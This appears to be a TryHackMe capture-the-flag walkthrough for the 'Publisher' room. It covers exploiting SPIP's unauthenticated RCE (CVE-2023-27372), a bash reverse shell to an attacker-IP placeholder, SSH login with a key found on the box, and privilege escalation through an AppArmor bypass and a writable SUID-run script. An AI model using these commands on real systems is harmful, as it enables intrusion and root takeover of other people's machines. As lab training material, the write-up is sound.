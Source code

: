 ```yaml
---
title: Publisher - TryHackMe Walkthrough
date: 2024-01-21 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, spip, rce, docker, privilege-escalation, tryhackme]
image:
  path: https://github.com/user-attachments/assets/9e1919d4-6a88-4bcf-9f67-1d28e61b7cac
  alt: Publisher Room Banner
---
```


# Publisher - TryHackMe Walkthrough

## Enumeration

### Nmap Scan
We start with a comprehensive nmap scan:
```bash
sudo nmap -sC -sV -T4 {target_IP}
```

The scan reveals two open ports:
- Port 22: OpenSSH 8.2p1 Ubuntu
- Port 80: Apache httpd 2.4.41

### Web Enumeration
The website appears to be a simple blog with no obvious functionality. Running a directory scan with feroxbuster reveals the `/spip` path.

![Publisher Homepage](https://github.com/user-attachments/assets/88eb3c30-693d-4126-a487-678a845fb8d0)

Using Wappalyzer, we identify that the site is running SPIP version 4.2.0.

![SPIP Version](https://github.com/user-attachments/assets/6d83eac2-5997-4116-8602-7605e1d5e8a6)

## Initial Access

Research reveals that SPIP 4.2.0 is vulnerable to Unauthenticated Remote Code Execution (CVE-2023-27372). We can exploit this using a publicly available exploit:

```bash
git clone https://github.com/Chocapikk/CVE-2023-27372.git
pip install -r requirements.txt
python CVE-2023-27372.py -u http://{target_IP}/spip/ -v -o report.txt
```

![RCE Success](https://github.com/user-attachments/assets/a949bd7d-2bf4-426c-a726-76072a9081f6)

### Getting a Reverse Shell
We establish a reverse shell using:
```bash
bash -c "bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1"
```

![Reverse Shell](https://github.com/user-attachments/assets/a563c167-31f6-4adb-b566-cd989a0879bf)

## Lateral Movement

We discover we're in a Docker container. Manual enumeration reveals an SSH private key in the think user's home directory:

![SSH Key](https://github.com/user-attachments/assets/c2dff48d-d254-48d7-9610-408a223b381d)

We can use this key to gain SSH access as the think user:
```bash
ssh -i id_rsa think@{target_IP}
```

## Privilege Escalation

### Method 1: AppArmor Bypass
We discover AppArmor is running, which restricts file operations. After analyzing the AppArmor rules, we find we can write to `/dev/shm`:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
./test.pl
```

### Method 2: SUID Binary Exploitation
We find a SUID binary `/usr/sbin/run_container` that executes `/opt/run_container.sh`. Since we have write permissions to this script, we can modify it to add SUID to `/bin/bash`:

```bash
echo 'chmod +s /bin/bash' > /opt/run_container.sh
/usr/sbin/run_container
/bin/bash -p
```

![Root Access](https://github.com/user-attachments/assets/53ae8c26-a233-4010-bebe-2637fbf6ff54)

## Alternative Method
From the www-data shell, we can:
1. Copy `/bin/bash` to `/home/think/spip`
2. Set SUID bit
3. Make it readable by everyone
4. Execute it from the SSH session

## Conclusion
This machine demonstrates several important security concepts:
- Web application vulnerabilities (SPIP RCE)
- Docker container escape
- AppArmor bypass techniques
- SUID binary exploitation
- Multiple privilege escalation paths

Remember: Always look for multiple ways to achieve your goal, as there might be more than one path to success. 